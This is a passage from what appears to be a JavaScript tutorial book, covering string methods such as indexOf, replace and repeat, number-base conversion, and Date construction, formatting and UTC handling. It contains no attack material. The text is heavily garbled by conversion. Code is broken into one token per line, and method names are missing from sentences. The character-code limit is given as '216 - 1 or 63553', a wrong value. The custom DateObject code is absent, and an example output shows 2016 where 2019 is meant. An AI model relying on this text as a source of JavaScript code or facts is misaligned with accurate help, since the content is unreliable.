character codes beyond 216 - 1 or 63553. These extended character
codes or *code point* values can be retrieved with codePointAt:

*// The Grinning Face Emoji has code point 128512 or 0x1F600*

**var**

codePoint

=

\"????\"

.

codePointAt

(

)

;

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-13">Section 7.13: String Representations of Numbers</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

JavaScript has native conversion from *Number* to its *String
representation* for any base from *2 to 36*.
>
The most common representation after *decimal (base 10)* is
*hexadecimal (base 16)*, but the contents of this section work for all
bases in the range.
>
In order to convert a *Number* from decimal (base 10) to its
hexadecimal (base 16) *String representation* the *toString* method
can be used with *radix 16*.

*// base 10 Number*

**var**

b10

=

12

;

*// base 16 String representation*

**var**

b16

=

b10.

toString

(

16

)

;

*// \"c\"*

If the number represented is an integer, the inverse operation for
this can be done with parseInt and the *radix 16* again

*// base 16 String representation*

**var**

b16

=

\'c\'

;

*// base 10 Number*

**var**

b10

=

parseInt

(

b16

,

16

)

;

*// 12*

To convert an arbitrary number (i.e. non-integer) from its *String
representation* into a *Number*, the operation must be split into two
parts; the integer part and the fraction part.

Version ≥ 6

**let**

b16

=

\'3.243f3e0370cdc\'

;

*// Split into integer and fraction parts*

**let**

\[

i16

,

f16

\]

=

b16.

split

(

\'.\'

)

;

*// Calculate base 10 integer part*

**let**

i10

=

parseInt

(

i16

,

16

)

;

*// 3*

*// Calculate the base 10 fraction part*

**let**

f10

=

parseInt

(

f16

,

16

)

/

Math

.

pow

(

16

,

f16.

length

)

;

*// 0.14158999999999988*

*// Put the base 10 parts together to find the Number*

**let**

b10

=

i10

\+

f10

;

*// 3.14159*

**Note 1:** Be careful as small errors may be in the result due to
differences in what is possible to be represented in different bases.
It may be desirable to perform some kind of rounding afterwards.
>
**Note 2:** Very long representations of numbers may also result in
errors due to the accuracy and maximum values of *Numbers* of the
environment the conversions are happening in.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-14">Section 7.14: String Find and Replace Functions</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

To search for a string inside a string, there are several functions:

  
  [**indexOf**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/indexOf)   [**(**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/indexOf)   [**searchString**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/indexOf)   **[)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/indexOf)   [**lastIndexOf**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/lastIndexOf)   [**(**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/lastIndexOf)   [**searchString**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/lastIndexOf)
                                                                                                                                                                                                                                                                                                                                                    and**                                                                                                                                                                                                                                                                                                                                            
        

  

[**)**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/lastIndexOf)

  
  indexOf
  

  

() will return the index of the first occurrence of searchString in
the string. If searchString is not found, then -1 is returned.

**var**

string

=

\"Hello, World!\"

;

console.

log

(

string.

indexOf

(

\"o\"

)

)

;

*// 4*

console.

log

(

string.

indexOf

(

\"foo\"

)

)

;

*// -1*

  
  lastIndexOf
  

  

Similarly, () will return the index of the last occurrence of
searchstring or -1 if not found.

**var**

string

=

\"Hello, World!\"

;

console.

log

(

string.

lastIndexOf

(

\"o\"

)

)

;

*// 8*

console.

log

(

string.

lastIndexOf

(

\"foo\"

)

)

;

*// -1*

  
  [**includes**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/includes)   [**(**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/includes)   [**searchString**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/includes)   [**,**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/includes)   [**start**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/includes)
   -  - -

  

[**)**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/includes)

  
  includes
  

  

  
  indexOf
  

  

() will return a boolean that tells whether searchString exists in the
string, starting from index start (defaults to 0). This is better than
() if you simply need to test for existence of a substring.

**var**

string

=

\"Hello, World!\"

;

console.

log

(

string.

includes

(

\"Hello\"

)

)

;

*// true*

console.

log

(

string.

includes

(

\"foo\"

)

)

;

*// false*

  -
  [**replace**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)   [**(**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)   [**regexp**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)   [**\|**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)   [**substring**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)   [**,**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)   [**replacement**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)   [**\|**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)   [**replaceFunction**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)
    - -   - - 

  -

[**)**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)

  
  replace
  

  

() will return a string that has all occurrences of substrings
matching the
[RegExp](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp)
regexp or string substring with a string replacement or the returned
value of replaceFunction.
>
Note that this does not modify the string in place, but returns the
string with replacements.

**var**

string

=

\"Hello, World!\"

;

string

=

string.

replace

(

\"Hello\"

,

\"Bye\"

)

;

console.

log

(

string

)

;

*// \"Bye, World!\"*

string

=

string.

replace

(

*/W.{3}d/g*

,

\"Universe\"

)

;

console.

log

(

string

)

;

*// \"Bye, Universe!\"*

replaceFunction can be used for conditional replacements for regular
expression objects (i.e., with use with regexp). The parameters are in
the following order:

**Parameter Meaning**

match the substring that matches the entire regular expressiong g1,
g2, g3, \... the matching groups in the regular expression offset the
offset of the match in the entire string string the entire string
>
Note that all parameters are optional.

**var**

string

=

\"heLlo, woRlD!\"

;

string

=

string.

replace

(

*/(\[a-zA-Z\])(\[a-zA-Z\]+)/g*

,

**function**

(

match

,

g1

,

g2

)

{

**return**

g1.

toUpperCase

(

)

\+

g2.

toLowerCase

(

)

;

}

)

;

console.

log

(

string

)

;

*// \"Hello, World!\"*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-15">Section 7.15: Find the index of a substring inside a string</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  indexOf
  

  

The . method returns the index of a substring inside another string
(if exists, or -1 if otherwise)

\'Hellow World\'

.

indexOf

(

\'Wor\'

)

;

*// 7*

  
  indexOf
  

  

. also accepts an additional numeric argument that indicates on what
index should the function start looking

\"harr dee harr dee harr\"

.

indexOf

(

\"dee\"

,

10

)

;

*// 14*

  
  indexOf
  

  

You should note that . is case sensitive

\'Hellow World\'

.

indexOf

(

\'WOR\'

)

;

*// -1*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-16">Section 7.16: String to Upper Case</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

String.prototype.toUpperCase():

console.

log

(

\'qwerty\'

.

toUpperCase

(

)

)

;

*// \'QWERTY\'*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-17">Section 7.17: String to Lower Case</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

String.prototype.toLowerCase()

console.

log

(

\'QWERTY\'

.

toLowerCase

(

)

)

;

*// \'qwerty\'*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch7-18">Section 7.18: Repeat a String</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

Version ≥ 6

This can be done using the
[.repeat()](http://www.ecma-international.org/ecma-262/6.0/#sec-string.prototype.repeat)
method:

\"abc\"

.

repeat

(

3

)

;

*// Returns \"abcabcabc\"*

\"abc\"

.

repeat

(

0

)

;

*// Returns \"\"*

\"abc\"

.

repeat

(

\-

1

)

;

*// Throws a RangeError*

Version

\<

6

In the general case, this should be done using a correct polyfill for
the ES6
[String.prototype.repeat()](http://www.ecma-international.org/ecma-262/6.0/#sec-string.prototype.repeat)
method.

Otherwise, the idiom

**new**

Array

(

n

\+

1

)

.

join

(

myString

)

can repeat

n

times the string

myString

:

**var**

myString

=

\"abc\"

;

**var**

n

=

3

;

**new**

Array

(

n

\+

1

)

.

join

(

myString

)

;

*// Returns \"abcabcabc\"*

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h2 id="ch8">Chapter 8: Date</h2>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Parameter Details**

value The number of milliseconds since 1 January 1970 00:00:00.000 UTC
(Unix epoch) dateAsString A date formatted as a string (see examples
for more information)

The year value of the date. Note that month must also be provided, or
the value will be interpreted

year as a number of milliseconds. Also note that values between 0 and
99 have special meaning. See the examples.

  
  11
  

  

The month, in the range 0-. Note that using values outside the specified
range for this and the

month following parameters will not result in an error, but rather
cause the resulting date to \"roll over\" to the next value. See the
examples.

  
  31
  

  

  
  23
  

  

  
  59
  

  

  
  59
  

  

  
  999
  

  

day Optional: The date, in the range 1-. hour Optional: The hour, in
the range 0-. minute Optional: The minute, in the range 0-. second
Optional: The second, in the range 0-. millisecond Optional: The
millisecond, in the range 0-.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch8-1">Section 8.1: Create a new Date object</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  Date
  

  

To create a new Date object use the () constructor:
>
**with no arguments**

  
  Date
  

  

() creates a Date instance containing the current time (up to
milliseconds) and date.
>
**with one integer argument**

  
  Date
  

  

  -
  **new** Date                (   749019369738
    -

  -

\(m\) creates a Date instance containing the time and date
corresponding to the Epoch time (1 January, 1970 UTC) plus m
milliseconds. Example: ) gives the date *Sun, 26 Sep 1993 04:56:09
GMT*.
>
**with a string argument**

  
  Date   (   dateString   ) returns the Date object that results after      Date   .   parse
                          parsing dateString with                                      
        -

  

.

**with two or more integer arguments**

  
  Date       (   i1    ,   i2      ,   i3      ,   i4      ,   i5      ,   i6
  -  -  -  -  -  -  -

  

) reads the arguments as year, month, day, hours, minutes, seconds,

  
  **new** Date                                (     2017
   - 

  

milliseconds and instantiates the corresponding Dateobject. Note that
the month is 0-indexed in JavaScript, so 0 means January and 11 means
December. Example: , 5, 1) gives *June 1st, 2017*.
>
**Exploring dates**
>
Note that these examples were generated on a browser in the Central
Time Zone of the US, during Daylight Time,

  
  Date       .   **prototype**            .   toISOString
  -  -  -

  

as evidenced by the code. Where comparison with UTC was instructive,
() was used to show the date and time in UTC (the Z in the formatted
string denotes UTC).
>
*// Creates a Date object with the current date and time from the //
user\'s browser* **var** now = **new** Date(); now.toString() ===
\'Mon Apr 11 2016 16:10:41 GMT-0500 (Central Daylight Time)\' *//
true*
>
*// well, at the time of this writing, anyway*
>
*// Creates a Date object at the Unix Epoch (i.e.,
\'1970-01-01T00:00:00.000Z\')* **var** epoch = **new** Date(0);
epoch.toISOString() === \'1970-01-01T00:00:00.000Z\' *// true*
>
*// Creates a Date object with the date and time 2,012 milliseconds //
after the Unix Epoch (i.e., \'1970-01-01T00:00:02.012Z\').* **var** ms
= **new** Date(2012); date2012.toISOString() ===
\'1970-01-01T00:00:02.012Z\' *// true*
>
*// Creates a Date object with the first day of February of the year
2012 // in the local timezone.* **var** one = **new** Date(2012, 1);
one.toString() === \'Wed Feb 01 2012 00:00:00 GMT-0600 (Central
Standard Time)\' *// true*
>
*// Creates a Date object with the first day of the year 2012 in the
local // timezone. // (Months are zero-based)* **var** zero = **new**
Date(2012, 0); zero.toString() === \'Sun Jan 01 2012 00:00:00 GMT-0600
(Central Standard Time)\' *// true*
>
*// Creates a Date object with the first day of the year 2012, in
UTC.* **var** utc = **new** Date(Date.UTC(2012, 0)); utc.toString()
=== \'Sat Dec 31 2011 18:00:00 GMT-0600 (Central Standard Time)\'
>
*// true* utc.toISOString() === \'2012-01-01T00:00:00.000Z\'
>
*// true*
>
*// Parses a string into a Date object (ISO 8601 format added in
ECMAScript 5.1) // Implementations should assumed UTC because of ISO
8601 format and Z designation* **var** iso = **new**
Date(\'2012-01-01T00:00:00.000Z\'); iso.toISOString() ===
\'2012-01-01T00:00:00.000Z\' *// true*
>
*// Parses a string into a Date object (RFC in JavaScript 1.0)*
**var** local = **new** Date(\'Sun, 01 Jan 2012 00:00:00 -0600\');
local.toString() === \'Sun Jan 01 2012 00:00:00 GMT-0600 (Central
Standard Time)\' *// true*
>
*// Parses a string in no particular format, most of the time. Note
that parsing*
>
*// logic in these cases is very implementation-dependent, and
therefore can vary // across browsers and versions.*
>
**var** anything = **new** Date(\'11/12/2012\'); anything.toString()
=== \'Mon Nov 12 2012 00:00:00 GMT-0600 (Central Standard Time)\' *//
true, in Chrome 49 64-bit on Windows 10 in the en-US locale. Other
versions in // other locales may get a different result.*
>
*// Rolls values outside of a specified range to the next value.*
>
**var** rollover = **new** Date(2012, 12, 32, 25, 62, 62, 1023);
rollover.toString() === \'Sat Feb 02 2013 02:03:03 GMT-0600 (Central
Standard Time)\' *// true; note that the month rolled over to Feb;
first the month rolled over to*
>
*// Jan based on the month 12 (11 being December), then again because
of the day 32 // (January having 31 days).*

*// Special dates for years in the range 0-99*

**var**

special1

=

**new**

Date

(

12

,

0

)

;

special1.

toString

(

)

===

\'Mon Jan 01 1912 00:00:00 GMT-0600 (Central Standard Time)\`

// true

// If you actually wanted to set the year to the year 12 CE, you\'

d need to use the

*// setFullYear() method:*

special1.

setFullYear

(

12

)

;

special1.

toString

(

)

===

\'Sun Jan 01 12 00:00:00 GMT-0600 (Central Standard Time)\`

// true

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch8-2">Section 8.2: Convert to a string format</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Convert to String**

**var**

date1

=

**new**

Date

(

)

;

date1.

toString

(

)

;

Returns: \"Fri Apr 15 2016 07:48:48 GMT-0400 (Eastern Daylight Time)\"

**Convert to Time String**

**var**

date1

=

**new**

Date

(

)

;

date1.

toTimeString

(

)

;

Returns: \"07:48:48 GMT-0400 (Eastern Daylight Time)\"

**Convert to Date String**

**var**

date1

=

**new**

Date

(

)

;

date1.

toDateString

(

)

;

Returns: \"Thu Apr 14 2016\"

**Convert to UTC String**

**var**

date1

=

**new**

Date

(

)

;

date1.

toUTCString

(

)

;

Returns: \"Fri, 15 Apr 2016 11:48:48 GMT\"

**Convert to ISO String**

**var**

date1

=

**new**

Date

(

)

;

date1.

toISOString

(

)

;

Returns: \"2016-04-14T23:49:08.596Z\"

**Convert to GMT String**

**var**

date1

=

**new**

Date

(

)

;

date1.

toGMTString

(

)

;

Returns: \"Thu, 14 Apr 2016 23:49:08 GMT\"

This function has been marked as deprecated so some browsers may not
support it in the future. It is suggested to use toUTCString()
instead.

**Convert to Locale Date String**

**var**

date1

=

**new**

Date

(

)

;

date1.

toLocaleDateString

(

)

;

Returns: \"4/14/2016\"

This function returns a locale sensitive date string based upon the
user\'s location by default.

date1.

toLocaleDateString

(

\[

locales

\[

,

options

\]

\]

)

can be used to provide specific locales but is browser implementation
specific. For example,

date1.

toLocaleDateString

(

\[

\"zh\"

,

\"en-US\"

\]

)

;

would attempt to print the string in the Chinese locale using United
States English as a fallback. The options parameter can be used to
provide specific formatting. For example:

**var** options = { weekday: \'long\', year: \'numeric\', month:
\'long\', day: \'numeric\' }; date1.toLocaleDateString(\[\], options);
would result in

\"Thursday, April 14, 2016\".

See [the
MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Date/toLocaleDateString#Example:_Checking_for_support_for_locales_and_options_arguments)
for more details.

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch8-3">Section 8.3: Creating a Date from UTC</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

By default, a Date object is created as local time. This is not always
desirable, for example when communicating a date between a server and
a client that do not reside in the same timezone. In this scenario,
one doesn\'t want to worry about timezones at all until the date needs
to be displayed in local time, if that is even required at all.

**The problem**

In this problem we want to communicate a specific date (day, month,
year) with someone in a different timezone. The first implementation
naively uses local times, which results in wrong results. The second
implementation uses UTC dates to avoid timezones where they are not
needed.

**Naive approach with WRONG results**

**function**

formatDate

(

dayOfWeek

,

day

,

month

,

year

)

{

**var**

daysOfWeek

=

\[

\"Sun\"

,

\"Mon\"

,

\"Tue\"

,

\"Wed\"

,

\"Thu\"

,

\"Fri\"

,

\"Sat\"

\]

;

**var**

months

=

\[

\"Jan\"

,

\"Feb\"

,

\"Mar\"

,

\"Apr\"

,

\"May\"

,

\"Jun\"

,

\"Jul\"

,

\"Aug\"

,

\"Sep\"

,

\"Oct\"

,

\"Nov\"

,

\"Dec\"

\]

;

**return**

daysOfWeek

\[

dayOfWeek

\]

\+

\" \"

\+

months

\[

month

\]

\+

\" \"

\+

day

\+

\" \"

\+

year

;

}

*//Foo lives in a country with timezone GMT + 1*

**var**

birthday

=

**new**

Date

(

2000

,

0

,

1

)

;

console.

log

(

\"Foo was born on: \"

\+

formatDate

(

birthday.

getDay

(

)

,

birthday.

getDate

(

)

,

birthday.

getMonth

(

)

,

birthday.

getFullYear

(

)

)

)

;

sendToBar

(

birthday.

getTime

(

)

)

;

Sample output:

Foo was born on: Sat Jan 1 2000

*//Meanwhile somewhere else\...*

*//Bar lives in a country with timezone GMT - 1*

**var**

birthday

=

**new**

Date

(

receiveFromFoo

(

)

)

;

console.

log

(

\"Foo was born on: \"

\+

formatDate

(

birthday.

getDay

(

)

,

birthday.

getDate

(

)

,

birthday.

getMonth

(

)

,

birthday.

getFullYear

(

)

)

)

;

Sample output:

Foo was born on: Fri Dec 31 1999

And thus, Bar would always believe Foo was born on the last day of
1999.
>
**Correct approach**

**function**

formatDate

(

dayOfWeek

,

day

,

month

,

year

)

{

**var**

daysOfWeek

=

\[

\"Sun\"

,

\"Mon\"

,

\"Tue\"

,

\"Wed\"

,

\"Thu\"

,

\"Fri\"

,

\"Sat\"

\]

;

**var**

months

=

\[

\"Jan\"

,

\"Feb\"

,

\"Mar\"

,

\"Apr\"

,

\"May\"

,

\"Jun\"

,

\"Jul\"

,

\"Aug\"

,

\"Sep\"

,

\"Oct\"

,

\"Nov\"

,

\"Dec\"

\]

;

**return**

daysOfWeek

\[

dayOfWeek

\]

\+

\" \"

\+

months

\[

month

\]

\+

\" \"

\+

day

\+

\" \"

\+

year

;

}

*//Foo lives in a country with timezone GMT + 1*

**var**

birthday

=

**new**

Date

(

Date

.

UTC

(

2000

,

0

,

1

)

)

;

console.

log

(

\"Foo was born on: \"

\+

formatDate

(

birthday.

getUTCDay

(

)

,

birthday.

getUTCDate

(

)

,

birthday.

getUTCMonth

(

)

,

birthday.

getUTCFullYear

(

)

)

)

;

sendToBar

(

birthday.

getTime

(

)

)

;

Sample output:

Foo was born on: Sat Jan 1 2000

*//Meanwhile somewhere else\...*

*//Bar lives in a country with timezone GMT - 1*

**var**

birthday

=

**new**

Date

(

receiveFromFoo

(

)

)

;

console.

log

(

\"Foo was born on: \"

\+

formatDate

(

birthday.

getUTCDay

(

)

,

birthday.

getUTCDate

(

)

,

birthday.

getUTCMonth

(

)

,

birthday.

getUTCFullYear

(

)

)

)

;

Sample output:

Foo was born on: Sat Jan 1 2000

**Creating a Date from UTC**

  
  Date                    .     UTC               (     \...
   -  - 

  

If one wants to create a Date object based on UTC or GMT, the ) method
can be used. It uses the same arguments as the longest Date
constructor. This method will return a number representing the time
that has passed since January 1, 1970, 00:00:00 UTC.

console.

log

(

Date

.

UTC

(

2000

,

0

,

31

,

12

)

)

;

Sample output:

949320000000

**var**

utcDate

=

**new**

Date

(

Date

.

UTC

(

2000

,

0

,

31

,

12

)

)

;

console.

log

(

utcDate

)

;

Sample output:

Mon Jan 31 2000 13:00:00 GMT+0100 (West-Europa (standaardtijd))

Unsurprisingly, the difference between UTC time and local time is, in
fact, the timezone offset converted to milliseconds.

**var**

utcDate

=

**new**

Date

(

Date

.

UTC

(

2000

,

0

,

31

,

12

)

)

;

**var**

localDate

=

**new**

Date

(

2000

,

0

,

31

,

12

)

;

console.

log

(

localDate

\-

utcDate

===

utcDate.

getTimezoneOffset

(

)

\*

60

\*

1000

)

;

Sample output:

**true**

**Changing a Date object**

  
  setDate         (   \...   ) and       setFullYear              (   \...
      -  

  

All Date object modifiers, such as ) have an equivalent takes an
argument in
>
UTC time rather than in local time.

**var**

date

=

**new**

Date

(

)

;

date.

setUTCFullYear

(

2000

,

0

,

31

)

;

date.

setUTCHours

(

12

,

0

,

0

,

0

)

;

console.

log

(

date

)

;

Sample output:

Mon Jan 31 2000 13:00:00 GMT+0100 (West-Europa (standaardtijd))

  -
  setUTCMonth                     (), .       setUTCDate
    

  -

The other UTC-specific modifiers are .() (for the day of the month),

  
  setUTCMinutes    (), . setUTCSeconds    () and .  setUTCMilliseconds
  - - -  

  

.().

**Avoiding ambiguity with getTime() and setTime()**
>
Where the methods above are required to differentiate between
ambiguity in dates, it is usually easier to communicate a date as the
amount of time that has passed since January 1, 1970, 00:00:00 UTC.
This single number represents a single point in time, and can be
converted to local time whenever necessary.

**var**

date

=

**new**

Date

(

Date

.

UTC

(

2000

,

0

,

31

,

12

)

)

;

**var**

timestamp

=

date.

getTime

(

)

;

*//Alternatively*

**var**

timestamp2

=

Date

.

UTC

(

2000

,

0

,

31

,

12

)

;

console.

log

(

timestamp

===

timestamp2

)

;

Sample output:

**true**

*//And when constructing a date from it elsewhere\...*

**var**

otherDate

=

**new**

Date

(

timestamp

)

;

*//Represented as a universal date*

console.

log

(

otherDate.

toUTCString

(

)

)

;

*//Represented as a local date*

console.

log

(

otherDate

)

;

Sample output:

Mon, 31 Jan 2000 12:00:00 GMT

Mon Jan 31 2000 13:00:00 GMT+0100 (West-Europa (standaardtijd))

/code\>

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch8-4">Section 8.4: Formatting a JavaScript date</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

**Formatting a JavaScript date in modern browsers**

  
  [Date](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Date/toLocaleDateString)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Date/toLocaleDateString)   [**prototype**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Date/toLocaleDateString)   [.](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Date/toLocaleDateString)   [toLocaleDateString](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Date/toLocaleDateString)
   -  - -

  

In modern browsers (\*),
[()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Date/toLocaleDateString)
allows you to define the formatting of a Date in a convenient manner.
>
It requires the following format :

dateObj.

toLocaleDateString

(

\[

locales

\[

,

options

\]

\]

)

The locales parameter should be a string with a BCP 47 language tag,
or an array of such strings.
>
The options parameter should be an object with some or all of the
following properties:
>
**localeMatcher** : possible values are \"lookup\" and \"best fit\";
the default is \"best fit\" **timeZone** : the only value
implementations must recognize is \"UTC\"; the default is the
runtime\'s default time zone **hour12** :possible values are **true**
and **false**; the default is locale dependent **formatMatcher** :
possible values are \"basic\" and \"best fit\"; the default is \"best
fit\" **weekday** : possible values are \"narrow\", \"short\" &
\"long\" **era** : possible values are \"narrow\", \"short\" &
\"long\" **year** : possible values are \"numeric\" & \"2-digit\"
**month** : possible values are \"numeric\", \"2-digit\", \"narrow\",
\"short\" & \"long\" **day** : possible values are \"numeric\" &
\"2-digit\" **hour** : possible values are \"numeric\" & \"2-digit\"
**minute** : possible values are \"numeric\" & \"2-digit\" **second**
: possible values are \"numeric\" & \"2-digit\" **timeZoneName** :
possible values are \"short\" & \"long\"
>
**How to use**

**var**

today

=

**new**

Date

(

)

.

toLocaleDateString

(

\'en-GB\'

,

{

day

:

\'numeric\'

,

month

:

\'short\'

,

year

:

\'numeric\'

}

)

;

Output if executed on January 24 ʰ, 2036 :

\'24 Jan 2036\'

**Going custom**

  
  Date     .   **prototype**       .   toLocaleDateString
      

  

If () isn\'t flexible enough to fulfill whatever need you may have,
you might want to consider creating a custom Date object that looks
like this:
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
<!-- {width="7.486805555555556in" height="4.675694444444445in"} -->

}

}

;

**return**

date

;

}

)

(

)

;

  
  **new** DateObject
  

  

If you included that code and executed () on January 20 ʰ, 2019, it
would produce an object with the following properties:

day

:

20

dayPadded

:

\"20\"

month

:

1

monthPadded

:

\"01\"

monthName

:

\"January\"

year

:

2019

To get a formatted string, you could do something like this:

**new**

DateObject

(

)

.

**get**

(

\[

\'dayPadded\'

,

\'monthPadded\'

,

\'year\'

\]

)

;

That would produce the following output:

20-01-2016

(\*) [**According to the
MDN**](http://programmers.stackexchange.com/questions/56490/what-does-nightly-builds-mean),
\"modern browsers\" means Chrome 24+, Firefox 29+, IE11, Edge12+,
Opera 15+ & Safari [**nightly
build**](http://programmers.stackexchange.com/questions/56490/what-does-nightly-builds-mean)

<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->
<h3 id="ch8-5">Section 8.5: Get the number of milliseconds elapsed since 1 January 1970 00:00:00 UTC</h3>
<!--~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~-->

  
  Date                                .        now
    

  

The static method returns the number of milliseconds that have elapsed
since 1 January 1970 00:00:00 UTC. To get the number of milliseconds
that have elapsed since that time using an instance of a Date object,
use its getTime method.

*// get milliseconds using static method now of Date*

console.

log

(

Date

.

now

(

)

)

;

*// get milliseconds using method getTime of Date instance*

console.

log

(

(

**new**

Date

(

)

)

.

getTime

(

)

)

;

